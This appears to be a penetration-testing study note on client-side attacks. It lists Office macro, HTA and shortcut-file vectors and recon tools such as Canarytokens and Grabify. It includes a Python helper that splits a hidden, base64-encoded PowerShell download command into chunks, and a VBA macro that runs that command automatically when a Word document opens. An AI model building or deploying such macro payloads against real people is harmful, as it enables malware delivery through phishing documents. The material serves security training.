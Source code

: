 # Client-side Attacks
- Malicious **JScript** code executed through the **Windows Script Host**

- **.lnk** shortcut files pointing to malicious resources.

- Microsoft Office documents with embedded malicious **macros** written in **Visual Basic for Applications (VBA)**, which is a scripting language with full access to **ActiveX objects** and the Windows Script Host, similar to JavaScript in HTML Applications.

- An **HTML Application (HTA)** attached to an email to execute code in the context of Internet Explorer and to some extent, Microsoft Edge.

- Older client-side attack vectors, including **Dynamic Data Exchange (DDE)** and various **Object Linking and Embedding (OLE)** methods do not work well today without significant target system modification.

## Target Reconnaissance

**Canarytokens** is a free web service that generates a link with an embedded token that we'll send to the target.

When the target opens the link in a browser => get information about their **browser, IP address, and operating system**

Use an online IP logger like **Grabify or JavaScript fingerprinting libraries** such as **fingerprint.js**

```bash
exiftool -a -u brochure.pdf
```

## Leveraging Microsoft Word Macros

Split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the **Str** variable

```python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
    print("Str = Str + " + '"' + str[i:i+n] + '"')
```

```VB
Sub AutoOpen()
 MyMacro
End Sub

Sub Document_Open()
 MyMacro
End Sub

Sub MyMacro()
 Dim Str As String
 Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
...
 Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbAB=="
 CreateObject("Wscript.Shell").Run Str
End Sub
```
